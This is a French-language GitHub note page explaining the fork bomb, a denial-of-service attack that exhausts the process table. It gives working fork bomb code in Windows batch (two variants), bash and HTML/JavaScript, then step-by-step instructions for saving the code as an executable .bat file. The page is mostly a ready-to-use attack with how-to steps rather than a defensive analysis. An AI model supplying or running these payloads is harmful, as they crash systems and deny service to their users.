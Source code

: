 # Fork bomb
La fork bomb est une forme d'attaque par déni de service contre un système informatique utilisant la fonction fork.  

Elle est basée sur la supposition que le nombre de programmes et de processus pouvant être exécutés simultanément sur un ordinateur est limité.

## Principe
Une fork bomb fonctionne en créant un grand nombre de processus très rapidement, au moyen de la fonction fork, afin de saturer l'espace disponible dans la liste des processus gardée par le système d'exploitation.  

Si la table des processus se met à saturer, aucun nouveau programme ne peut démarrer tant qu'aucun autre ne termine.  

Même si cela arrive, il est peu probable qu'un programme utile démarre étant donné que les instances de la bombe attendent chacune d'occuper cet emplacement libre.

# Code
```
@echo off
:start
start
goto :start
```
[github.com /Altherneum/.github /blob/main /note /OS/Windows /forkBomb.bat](https://github.com/Altherneum/.github/blob/main/note/OS/Windows/forkBomb.bat)

## Variante Windows (Batch)
```
%0|%0
```
[github.com /Altherneum/.github /blob/main /note /OS/Windows /forkBomb2.bat](https://github.com/Altherneum/.github/blob/main/note/OS/Windows/forkBomb2.bat)

## Variante Linux (Bash)
```
:(){ :|:& };:
```
[github.com /Altherneum/.github /blob/main /note /OS/Linux /forkBomb.sh](https://github.com/Altherneum/.github/blob/main/note/OS/Linux/forkBomb.sh)

## Variante HTML / JS
```
<script type="text/javascript">
  function open_target_blank() 
  {
    window.open(window.location);
  }
  window.onload = open_target_blank();
</script>
```

# Comment utiliser

## Créer le fichier
- Créer un fichier [NOM].bat
- Modifier le text du fichier avec le code suivant : [Code](#Code)
- Vérifier que vous enregistrez bien le type de fichier en "Tout type de fichier" et non pas text uniquement
![notepad_hreGWL4UXj](https://github.com/Altherneum/.github/assets/84735589/940ea3b0-9e4b-4668-9af0-2eecbf35db47)